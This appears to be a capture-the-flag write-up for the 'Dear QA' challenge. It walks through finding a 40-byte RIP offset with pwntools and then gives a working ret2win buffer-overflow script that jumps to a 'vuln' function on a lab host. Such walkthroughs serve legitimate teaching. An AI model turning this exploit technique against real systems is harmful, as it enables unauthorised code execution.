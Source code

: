# Dear QA

### Dear QA
- What is the binary architecture?<br />
![image](https://github.com/user-attachments/assets/824417ab-32eb-49c3-822e-7bc0dad8e6a2)<br />
`x64`
- What is the flag?<br />
I download the provided binary to test the exploit on it. First I execute the following code:

      from pwn import *
      
      io = process('./DearQA-1627223337406.DearQA')
      print(io.recv(timeout=2))
      
      io.sendline(cyclic(500))
      io.wait()
      core = io.corefile
      stack = core.rsp
      info("rsp = %#x", stack)
      pattern = core.read(stack, 4)
      rip_offset = cyclic_find(pattern)
      info("rip offset is %d", rip_offset)
This will print out the offset before overwriting the RIP:<br />
![image](https://github.com/user-attachments/assets/2490ec03-bbbd-4676-a916-635e43ea88a4)<br />
So I know now that the offset is `40` bytes. Now I need to find a way to exploit this function. So inside gdb I run `info functions vuln` to get the address of the vulnerable function:<br />
![image](https://github.com/user-attachments/assets/5261d189-6de8-4b35-b16f-8587b2e8042c)<br />
So now I know that the vuln function has address `0x0000000000400686` (This will not change since ASLR is disabled, thankfully).<br />
That is all, I know the offset and I know the address of the vuln function, I just need to concatenate them to successfully run the exploit. So I developed the following pwntools script:<br />

    from pwn import *
    
    #p = process("./DearQA-1627223337406.DearQA")
    ip = "10.10.216.94"
    port = 5700
    p = remote(ip,port)
    
    offset = 40
    
    ret = p64(0x0000000000400686)
    
    payload = b"A"*offset
    payload += ret
    
    p.sendline(payload)
    
    p.interactive()
And finally run the exploit:<br />
![image](https://github.com/user-attachments/assets/88003f44-4c69-4faa-b980-4c7fa1ecd7ae)<br />

